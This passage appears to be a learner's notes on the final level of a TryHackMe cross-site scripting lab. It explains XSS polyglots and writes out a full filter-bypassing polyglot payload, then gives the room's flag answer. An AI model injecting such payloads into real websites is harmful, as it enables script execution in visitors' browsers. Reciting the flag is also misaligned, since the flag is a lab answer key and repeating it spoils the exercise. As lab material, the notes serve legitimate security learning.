 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)  

Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.
<div>
<br>
</div>

### Polyglots:

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.  

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``
<div>
<br>
<br>
</div>

### Questions

##### What is the flag you received from level six?
THM{XSS_MASTER}
<div align="center"><br><img src="Pasted image 20250910103434.png"></div>
<div align="center">
<br>
<br>
※※※※※※※※※※※※※※※※※※※※※※※※
<br>
</div>

